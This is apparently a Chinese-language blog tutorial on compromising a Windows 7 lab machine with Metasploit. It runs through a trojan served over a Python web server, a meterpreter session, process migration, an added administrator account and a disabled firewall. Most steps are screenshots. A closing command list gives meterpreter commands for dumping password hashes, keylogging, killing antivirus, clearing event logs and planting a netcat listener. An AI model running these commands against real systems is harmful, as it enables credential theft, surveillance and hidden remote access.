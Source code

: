 ```yaml
---
layout:     post
title:      msf入侵windows基本实践
subtitle:   msf入侵win7
date:       2021-03-19
author:     BlackFrog-hub
header-img: img/msf_bg.png
catalog: true
tags:
    - msf
    - kali
      
---
```


##### 生成木马
![](http://blackfrog.top/img/trojan.png)

##### 利用`Python`快速生成一个`HTTPServer`
![](http://blackfrog.top/img/python_http.png)

##### 利用靶机访问我们刚刚使用`Python`开启的`HTTPServer`，并下载生成的`Trojan`
![](http://blackfrog.top/img/http.PNG)

##### 启动`msf`
![](http://blackfrog.top/img/qidong.png)

##### 设置`payload`,并`exploit & run`成功
![](http://blackfrog.top/img/set.png)

##### 将`Trojan`进程移动到其他指定的进程中，这样做的好处是可以给`meterpreter`一个相对稳定的运行环境
![](http://blackfrog.top/img/unkill.png)

##### 查看`route`信息
![](http://blackfrog.top/img/route.png)

##### 查看进程`ps`
![](http://blackfrog.top/img/ps.png)

##### Get目标主机`shell`隐藏，获取靶机信息
![](http://blackfrog.top/img/get.png)

##### 查看`IP`
![](http://blackfrog.top/img/ip.png)

##### 添加新用户并加入`administrator`组
![](http://blackfrog.top/img/shell.png)

##### 下载靶机文件
![](http://blackfrog.top/img/get_file.png)

##### 打开`enable``or`关闭`disable`目标主机`Firewalls`
![](http://blackfrog.top/img/off_firewall.png)

##### 其他基本命令
-  `run post/windows/gather/smart_hashdump`  获取目标主机上用户的hash值
-  `run post/windows/capture/keylog_recorder`  键盘记录
-  `run killav` 结束目标主机上的杀毒软件相关进程
-  `clearev`  清除系统日志
-  `upload /usr/share/windows-binaries/nc.exe c:\\windows\\system32` 上传`nc.exe`到目标主机上 (注:`\\`)
-  `dir windows\\system32\\nc.exe`  查看
-  `execute -f nc -nvlp 3333`  执行nc.exe

